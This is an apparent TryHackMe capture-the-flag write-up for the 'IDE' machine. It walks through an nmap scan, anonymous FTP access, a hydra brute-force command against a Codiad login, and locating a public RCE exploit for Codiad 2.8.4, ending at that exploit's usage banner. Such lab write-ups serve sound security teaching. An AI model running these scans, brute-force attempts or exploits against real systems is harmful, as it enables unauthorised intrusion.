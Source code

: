 # IDE | THM
### Difficulty Level: Easy
-------------------------------------------------

![image](https://cdn-images-1.medium.com/max/1000/1*Yo40ffh6pfA0xQPrlNkdiQ.png)

First, nmap scan to enumarate the system and save the output into a file:

```
nmap -p- -T4 -A -sC -sV  10.10.36.144 -oN nmap.txt
```

-p- Which means scan all ports instead of the 1000 common ports.

-T4 - Controls the timing of the scan. On that case, level 4 to make it aggresive and fast.   

-A - Aggresive scan. 

-sC - Deafult nmap script. 

-sV - Services version. 

-oN - Saves the output into a file. 

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-11 16:07 EDT
Nmap scan report for 10.10.36.144
Host is up (0.11s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.198.161
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Codiad 2.8.4
|_http-server-header: Apache/2.4.29 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/11%OT=21%CT=1%CU=39457%PV=Y%DS=2%DC=T%G=Y%TM=65EF
OS:664F%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=10E%TI=Z%CI=Z%TS=A)SEQ(SP
OS:=FE%GCD=1%ISR=10F%TI=Z%CI=Z%TS=A)SEQ(SP=FF%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%
OS:TS=A)SEQ(SP=FF%GCD=1%ISR=10F%TI=Z%CI=Z%TS=A)SEQ(SP=FF%GCD=1%ISR=10F%TI=Z
OS:%CI=Z%II=I%TS=A)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M50
OS:8ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%
OS:W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=
OS:Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y
OS:%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%R
OS:D=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)I
OS:E(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   156.10 ms 10.9.0.1
2   157.85 ms 10.10.36.144

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 488.51 seconds
```
There are 4 open ports:

21 - FTP

22 - SSH

80 - HTTP

62337 - HTTP 

Start with FTP. There is Anonymous FTP login which means entry to FTP server without any credentials.

```bash
ftp anonymous@10.10.36.144
```

![image](https://cdn-images-1.medium.com/max/1000/1*MVloOCGmve8YyXK4X_TTDQ.png)

As we can see, there is a file. Let's get it.

![image](https://cdn-images-1.medium.com/max/1000/1*cMiKCn9e597HB3EliUrSGQ.png)

There is a message:

```
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

Let's move on to the browser and see what is the results of port 80.

![image](https://cdn-images-1.medium.com/max/1000/1*Hrz8Xm3kkwlF9JzIOuw9bw.png)

There is apache default page. On other cases, I used to keep scanning it with gobuster to enumarate other directories on the system.
But there is another port that runs HTTP service on it so let's check it:

```
http://<machine-address>:62337
```

![image](https://cdn-images-1.medium.com/max/1000/1*gpiBdpXmt5DCKZC__qVyOQ.png)

There is login page to codiad v2.8.4

What is codiad?
Codiad is an open-source web-based integrated development environment (IDE).

Remember this?

```
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```
I tried some default passwords till i made it.

![image](https://cdn-images-1.medium.com/max/1000/1*HiQuMJxSJhQdaNdVxhxqMg.png)

 If you don't know what is the password so I'll use hydra to get it:

```
hydra -l john -P /usr/share/wordlists/rockyou.txt <machine-ip> -s 62337 http-post-form "/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^&theme=default&language=en:Incorrect Username or Password"
```


The next step is to check if there is any CVE to this codiad version to exploit with serachsploit.

```
searchsploit codiad 2.8.4
```

![image](https://cdn-images-1.medium.com/max/1000/1*sUkIiY8Sby0fFbYnDMXzXQ.png)

Grab the exploit into your machine:

```
searchsploit -m 49705.py
```

CVE-2018-14009: 
This exploit allows RCE on codiad v2.8.4.

While execute it, there is a banner with usage information.

```
python3 49705.py
Usage : 
        python 49705.py [URL] [USERNAME] [PASSWORD] [IP] [PORT] [PLATFORM]
        python 49705.py [URL:PORT] [USERNAME] [PASSWORD] [IP] [PORT] [PLATFORM]
Example : 
        python 49705.py http://localhost/ admin admin 8.8.8.8 8888 linux
        python 49705.py http://localhost:8080/ admin admin 8.8.8.8 8888 windows
Author : 
        WangYihang <wangyihanger@gmail.com>
```


































